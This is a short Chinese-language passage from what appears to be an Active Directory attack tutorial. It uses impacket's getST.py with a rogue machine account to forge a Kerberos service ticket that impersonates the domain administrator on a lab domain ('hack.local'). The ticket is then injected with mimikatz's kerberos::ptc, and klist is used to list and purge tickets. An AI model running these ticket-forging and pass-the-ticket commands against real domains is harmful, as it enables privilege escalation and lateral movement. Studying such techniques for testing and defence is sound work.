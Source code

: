 使用impacket的getST生成票据，会在当前目录下生成administrator.ccache文件

目标机器安装impacket有点不现实，所以可以使用socks代理生成票据

 

```
getST.py -dc-ip 192.168.52.2 hack.local/evilpc\$:123456 -spn cifs/web2008.hack.local -impersonate administrator
```

![img](imgs/8da00ed8-598a-44f7-bac1-01c95f402f10.png)

使用mimikatz导入票据

 

```
kerberos::ptc 票据
kerberos::ptc C:\Users\lm\Desktop\administrator.ccache
```

![img](imgs/27454634-c24c-4ea5-86ca-62cc6ee44625.png)

 

```
klist           查询票据
klist purge     清空票据
```
